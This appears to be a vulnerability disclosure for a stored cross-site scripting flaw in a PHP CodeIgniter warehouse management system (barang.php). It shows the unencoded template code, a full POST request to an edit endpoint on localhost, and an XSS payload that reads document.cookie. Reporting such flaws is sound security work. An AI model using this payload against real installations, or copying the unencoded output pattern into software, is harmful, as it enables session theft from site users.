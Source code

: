 Warehouse Management System Store XSS on (barang.php) 

```
/ci_wms/application/views/admin/content/website/barang.php
```

Vendor Homepage:

```
https://www.sourcecodester.com/php-codeigniter-warehouse-management-system-free-source-code
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/ci_wms/application/views/admin/content/website/barang.php
```

The potential risk of Cross-Site Scripting (XSS) arises because the values of the `$nama_barang` and `$merek` variables are directly inserted into the `value` attribute of HTML input fields without undergoing HTML entity encoding. This means that if these variables contain malicious JavaScript code,  this code will be executed by the browser when the page loads.

```
                            <div class="form-group form-material">
                                <label class="control-label" for="inputText">Item name</label>
                                <input type="text" value="<?php echo $nama_barang; ?>" class="form-control input-sm" id="nama_barang" name="nama_barang" placeholder="Item name"
                                    required/>
                            </div>
                            <div class="form-group form-material">
                                <label class="control-label" for="inputText">Brand</label>
                                <input type="text" value="<?php echo $merek; ?>" class="form-control input-sm" id="merek" name="merek"
                                    placeholder="Brand" required/>
                            </div>
```

Proof of vulnerability:

Request:

```
POST /ci_wms/website/barang/edit/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_wms/website/barang/edit/15
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; sessions=iu3vtuuc2lqhggpfd1jmfqgbqt7jevjr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

id_barang=15&nama_barang=Item+02&merek=B+ONE&simpan=Update+Data
```
payload:
```
<img src=x onerRor=alert(document.cookie)>
```
<img width="1331" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/43a65cc8-2f15-4469-b073-c5914046c301">

<img width="1327" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/58e2cbd8-e710-4637-a641-ce14c68c2441">




